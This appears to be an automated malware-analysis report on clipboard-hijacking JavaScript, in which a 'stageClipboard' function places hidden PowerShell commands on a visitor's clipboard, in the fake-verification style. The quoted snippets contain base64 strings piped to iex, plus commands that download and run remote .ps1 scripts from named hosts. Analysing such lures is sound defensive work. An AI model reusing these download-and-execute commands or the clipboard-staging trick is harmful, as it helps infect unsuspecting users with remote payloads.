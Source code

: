 Found 20 PowerShell download context snippets

### stageClipboard Function

Found 13 references to stageClipboard function

**Example stageClipboard contexts:**

**Example 1**:
```javascript
...eG4veXdPVmtrZW0udHh0JyAtVXNlQmFzaWNQYXJzaW5nKS5Db250ZW50')) | iex"`; stageClipboard(commandToRun, verification_id); }...
```

**Example 2**:
```javascript
...dC9wWkpIcXRlci50eHQnIC1Vc2VCYXNpY1BhcnNpbmcpLkNvbnRlbnQ=')) | iex"`; stageClipboard(commandToRun, verification_id); }...
```

**Example 3**:
```javascript
...eG4veXdPVmtrZW0udHh0JyAtVXNlQmFzaWNQYXJzaW5nKS5Db250ZW50')) | iex"`; stageClipboard(commandToRun, verification_id); }...
```

### Malicious Commands

Found 4 commandToRun declarations

Malicious commands being prepared for clipboard:

**Example 1**:

Command:
```powershell
powershell 
```

Context:
```javascript
WindowStyle Hidden -Command \"iex (irm 'https://aatox.com/verify/45.ps1')\""; const commandToRun = "powershell " + htaP...
```

**Example 2**:

Command:
```powershell
powershell 
```

Context:
```javascript
 = "-w hidden -c \"iwr 'https://yogasitesdev.wpengine.com/2/15.ps1' | iex\""; const commandToRun = "powershell " + htaPat...
```

**Example 3**:
